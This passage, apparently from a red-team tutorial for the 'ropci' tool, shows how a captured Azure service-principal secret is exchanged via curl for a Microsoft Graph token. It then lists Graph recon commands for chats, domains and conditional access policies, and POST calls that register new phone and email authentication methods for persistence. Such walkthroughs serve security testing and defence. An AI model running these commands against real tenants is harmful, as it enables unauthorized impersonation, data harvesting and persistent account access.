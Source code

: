 Take note of the response, and the `secretText`. This is what can be used to impersonate the service principal.

With that `secretText`, which is the `client_secret` you can get an access token via the OAuth2 `client_credential` flow:

```
curl -d 'grant_type=client_credentials&client_id=2581d8b8-2e9c-4374-a418-06f9cfed87ff&client_secret=Yhj8Q~H1np.....4iEGuf0djD&scope=https://graph.microsoft.com/.default' https://login.microsoftonline.com/wuzzi.onmicrosoft.com/oauth2/v2.0/token
```

Fun times!

## More useful recon commands

### Chats

```
./ropci call -c /me/chats
```

### Searching for other items (e.g person)

```
./ropci search -t person -q "ropci" --format json  | jq
```

## Others

The `call` command allows to invoke the many other APIs that are exposed. Here are a couple of interesting examples:

```
./ropci call -c /domains --format json -o domains.json
./ropci call -c /domains/{tenant}}/verificationDnsRecords --format json -o verificationDnsRecords-domain1.json
./ropci call -c /organization --format json -o organization.json
./ropci call -c /identity/conditionalAccess/policies --format json -o conditionalAccess-Policies.json

```

```
./ropci call -c '/identity/b2cUserFlows/B2C_test_signin_signup/userflowIdentityProviders'
```

## Explore authentication methods

```
./ropci auth logon --clientid 27922004-5251-4030-b22d-91ecd9a37ea4 # Use Outlook Mobile clientID
./ropci call -c '/me/authentication/methods' -f id -f  emailAddress --format json | jq

./ropci call -c '/me/authentication/phoneMethods' -f id -f phoneNumber -f phoneType
./ropci call -c '/me/authentication/emailMethods' -f id -f emailAddress

./ropci call -c '/me/authentication/phoneMethods' --verb POST -b '{"phoneNumber": "+1 5558008000","phoneType": "mobile"}'
./ropci call -c '/me/authentication/emailMethods' --verb POST -b '{"emailAddress": "joe@example.org"}'
```
